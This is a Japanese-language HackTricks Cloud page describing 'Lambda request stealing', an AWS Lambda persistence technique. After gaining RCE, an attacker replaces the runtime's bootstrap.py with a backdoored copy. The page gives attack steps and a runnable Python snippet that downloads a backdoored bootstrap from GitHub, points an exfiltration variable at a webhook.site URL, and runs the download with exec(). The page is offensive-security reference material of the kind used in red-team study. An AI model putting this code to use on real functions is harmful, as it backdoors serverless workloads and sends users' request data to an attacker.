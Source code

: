 # AWS - Lambdaリクエストの盗難

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**はコンテナ外のプロセスで、**init**プロセスに**呼び出し**を**送信**します。
2. initプロセスはポート**9001**でリッスンし、いくつかの興味深いエンドポイントを公開しています：
* **`/2018-06-01/runtime/invocation/next`** – 次の呼び出しイベントを取得
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 呼び出しのハンドラー応答を返す
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返す
3. **bootstrap.py**はinitプロセスから呼び出しを取得するループを持ち、ユーザーのコードを呼び出して処理します（**`/next`**）。
4. 最後に、**bootstrap.py**はinitに**応答**を送信します。

bootstrapはユーザーコードをモジュールとして読み込むため、ユーザーコードによって実行されるコードは実際にはこのプロセス内で発生しています。

## Lambdaリクエストの盗難

この攻撃の目的は、ユーザーのコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。このようにして、**悪意のあるbootstrap**プロセスは**initプロセスと通信を開始**し、リクエストを処理しますが、**正当な**bootstrapは**悪意のあるものを実行しているため、initプロセスにリクエストを要求しません。

これは、ユーザーのコードが正当な**`bootstrap.py`**プロセスによって実行されているため、達成するのは簡単な作業です。したがって、攻撃者は次のことができます：

* **現在の呼び出しの偽の結果をinitプロセスに送信**し、initがbootstrapプロセスがさらに呼び出しを待っていると考えさせます。
* **`/${invoke-id}/response`**にリクエストを送信する必要があります。
* invoke-idは、正当な**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) Pythonモジュールを使用して取得することができます（[ここで提案されたように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）または再度**`/2018-06-01/runtime/invocation/next`**にリクエストすることでも取得できます（[ここで提案されたように](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 次の呼び出しを処理する悪意のある**`boostrap.py`**を実行します。
* ステルス性の目的で、lambda呼び出しパラメータを攻撃者が制御するC2に送信し、その後リクエストを通常通り処理することが可能です。
* この攻撃では、システムまたは[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から**`bootstrap.py`**の元のコードを取得し、悪意のあるコードを追加して、現在のlambda呼び出しから実行するだけで十分です。

### 攻撃手順

1. **RCE**脆弱性を見つける。
2. **悪意のある** **bootstrap**を生成する（例：[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）。
3. **悪意のあるbootstrapを実行する**。

これらのアクションは簡単に実行できます：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
